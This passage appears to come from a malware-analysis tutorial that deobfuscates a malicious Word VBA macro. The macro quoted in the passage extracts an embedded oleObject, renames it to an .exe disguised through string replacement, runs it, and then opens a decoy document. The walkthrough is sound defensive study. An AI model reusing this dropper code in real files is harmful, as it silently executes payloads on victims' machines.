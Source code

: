 ```vba
    oAzedpp.Namespace(folder_weoqzisdi___name).CopyHere oAzedpp.Namespace(folder_weoqzisdi___name & "word\" & file_weoqzisdi___name & Replace(".z_ip", "_", "")).items
    
    Name folder_weoqzisdi___name & "oleObject" & filewedum & ".bin" As folder_weoqzisdi___name & file_weoqzisdi___name & Replace(".e_xe", "_", "")
    
    Shell folder_weoqzisdi___name & file_weoqzisdi___name & Replace(".e_xe", "_", ""), vbNormalNoFocus
    
    Dim dokc_paeth  As String
    
    dokc_paeth = Environ$("USERPROFILE") & "\Documents\" & Application.ActiveDocument.Name & ".docx"
    
    If Dir(dokc_paeth) = "" Then
        Name folder_weoqzisdi___name & "word\embeddings\oleObject3.bin" As dokc_paeth
    End If
    
    Documents.Open FileName:=dokc_paeth, ConfirmConversions:=False, _
                   ReadOnly:=False, AddToRecentFiles:=False, PasswordDocument:="", _
                   PasswordTemplate:="", Revert:=False, WritePasswordDocument:="", _
                   WritePasswordTemplate:="", Format:=wdOpenFormatAuto, XMLTransform:=""
    
End Sub
```

After removing the extra lines and fixing the code's identation, we proceed to rename the variables to make them easier to read:

![alt text](/img/003-replace.png "Replace names")

In this case, we are lucky that some of the variables kept their original name before being concatenated with other characters, allowing us to easily identify what they are used for. If we did not have that information, we could deduce their function based on how they are being used.

After renaming the long variables, we can start reading line by line and trying to understand what the code is doing:

```vba
Sub weoqzisdi___lorfar()
    
    Dim mpath       As String
    Dim mfile       As String
    Dim mfolder     As Variant
    Dim mShellApplication As Object
    
    'The object Shell.Application is created
    Set mShellApplication = CreateObject("Shell.Application")
    
    'The string "vteijam hdgtra" is assigned to the variable mfile
    mfile = "vteijam hdgtra"
    
    'The enviromental variable "USERPROFILE" path is concatenated with
    '\Wrdix concatenated with the second the function was executed concatenated with "\"
    'For example: C:\Users\tmn\Wrdix12\
    mfolder = Environ$("USERPROFILE") & "\Wrdix" & "" & Second(Now) & "\"
    
    'It verifies if the folder exists and if not, it is created
    If Dir(mfolder, vbDirectory) = "" Then
        MkDir (mfolder)
    End If
    
    'The path + filename is assigned to the mpath variable (C:\Users\tmn\Wrdix12\vteijam hdgtra)
    mpath = mfolder & mfile
    
```